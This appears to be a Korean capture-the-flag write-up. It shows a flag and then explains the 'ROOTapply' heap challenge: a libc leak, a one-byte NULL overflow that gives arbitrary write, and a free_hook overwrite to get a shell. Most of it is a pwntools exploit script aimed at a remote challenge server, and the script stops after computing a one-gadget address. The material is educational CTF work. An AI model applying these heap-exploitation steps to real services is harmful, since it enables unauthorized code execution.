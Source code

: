 Flag : `FLAG{B3_G00D_0r_I_W1ll_T3xt_SanTa!}`



### ROOTapply

2개 만들고 한개 지우는걸로 libc leak 이 가능하다. 

그리고 profile 수정에서, 1byte NULL Overflow가 가능한데, 이걸로 context를 아예 다 덮어낼 수 있다.

그러면 Arbitrary write 가 가능해지고, 이걸로 free_hook을 덮어서 쉘 따주면 된다.

```python
from pwn import *


def Apply(school, subject):
    p.recvuntil('> ')
    p.sendline('1')
    p.recvuntil(': ')
    p.sendline(school)
    p.recvuntil(': ')
    p.sendline(subject)

def Delete(idx):
    p.recvuntil('> ')
    p.sendline('2')
    sleep(0.1)
    p.sendline(str(idx))

def Edit(idx, data):
    p.recvuntil('> ')
    p.sendline('3')
    sleep(0.1)
    p.sendline(str(idx))
    sleep(0.1)
    p.sendline(data)
    p.recvuntil('success!')

if __name__ == '__main__':
    p = remote('222.110.147.52',9707)#process('./ROOTapply')
    elf = ELF('./ROOTapply')
    libc = elf.libc

    p.recvuntil(': ')
    p.sendline("A")
    p.recvuntil(': ')
    p.sendline("1")

    Apply('AAAA', 'BBBB')
    Apply('CCCC', 'DDDD')

    Delete(0)

    p.recvuntil('> ')
    p.sendline('4')
    p.sendline('0')

    p.recvuntil('School: ')
    leak = u64(p.recv(6).ljust(8,'\x00'))
    libcbase = leak - 0x3c4b78

    log.info("LIBCBASE : 0x%x" % libcbase)
    pause()
    oneshot = libcbase + 0x4526a
    
```